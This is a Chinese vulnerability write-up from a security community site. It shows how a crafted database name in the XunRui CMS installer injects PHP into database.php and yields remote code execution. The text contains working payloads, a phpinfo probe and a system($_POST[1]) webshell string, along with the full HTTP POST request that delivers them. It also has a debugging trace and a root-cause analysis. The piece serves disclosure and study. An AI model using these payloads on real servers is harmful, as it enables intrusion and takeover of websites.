










# 从控制本地数据库名称到getshell挖掘分析-先知社区

> **来源**: https://xz.aliyun.com/news/17013  
> **文章ID**: 17013

---

# 从控制本地数据库名称到getshell挖掘分析

## 前言

**文章仅分享交流技术，切勿恶意使用，后果自负**

## 简单介绍

迅睿 CMS 内容管理框架是基于 PHP 语言采用最新 CodeIgniter 作为开发框架生产的网站内容管理框架，提供“电脑网站 + 手机网站 + 多终端 + APP 接口”一体化网站技术解决方案。她拥有强大稳定底层框架，以灵活扩展为主的开发理念，二次开发方便且不破坏程序内核，为 WEB 艺术家创造的 PHP 建站程序，堪称 PHP 万能建站框架。团队长期从事 cms 建站系统研发，从 2009 年研发 FineCMS，轻量级内容管理深受广大用户喜爱

## 环境搭建

官网下载源码

<https://www.xunruicms.com/down/>



phpstudy 搭建

## 漏洞复现

首先需要自己本地创建一个数据库

```
-'];phpinfo();['
```

名字很奇怪但是先不需要管

然后当我们进入安装界面的时候会需要我们输入



数据库的名称

这时候我们只需要

输入

```
POST /index.php?c=install&m=index&is_install_db=0&step=2 HTTP/1.1
Host: xunrui:9875
Content-Length: 372
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://xunrui:9875
Referer: http://xunrui:9875/index.php?c=install&m=index&step=2&is_install_db=0
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: csrf_cookie_name=e5d9554deb2bd50af0d752f5d6cd8fb7
Connection: keep-alive

is_form=1&is_admin=0&is_tips=&csrf_test_name=e5d9554deb2bd50af0d752f5d6cd8fb7&data%5Bname%5D=%E6%88%91%E7%9A%84%E9%A1%B9%E7%9B%AE&data%5Bemail%5D=admin%40admin.com&data%5Busername%5D=admin&data%5Bpassword%5D=admin&data%5Bdb_host%5D=127.0.0.1&data%5Bdb_user%5D=root&data%5Bdb_pass%5D=123456&data%5Bdb_name%5D=-'%5D%3Bphpinfo()%3B%5B'&data%5Bdb_prefix%5D=dr_&is_install_db=1
```

将我们的数据库名称写为恶意代码就可以得到

然后进入下一步



直接就得到了一个 phpinfo 的界面

我们可以观察文件



已经被修改了

这里我们写一个 php 的木马

```
-'];system($_POST[1]);['
```

一样的操作



直接访问可能有点问题，但是代码是发挥作用了的



## 漏洞调试分析

```
Install.php:186, Phpcmf\Control\Install->index()
CodeIgniter.php:935, Phpcmf\Extend\CodeIgniter->runController()
CodeIgniter.php:431, Phpcmf\Extend\CodeIgniter->handleRequest()
CodeIgniter.php:332, Phpcmf\Extend\CodeIgniter->run()
Init.php:77, require()
Init.php:518, require()
index.php:53, {main}()
```

来到 Install.php，首先获取 data 的值



然后看到下面



然后判定我们数据库是否连接成功，然后是否有这个数据库

所以利用的条件是必须有一个我们可以任意控制名称的数据库

然后看到下面



把我们的配置信息写入到了文件 database.php

我们看到恶意文件



成功被写入恶意的数据造成了 rce
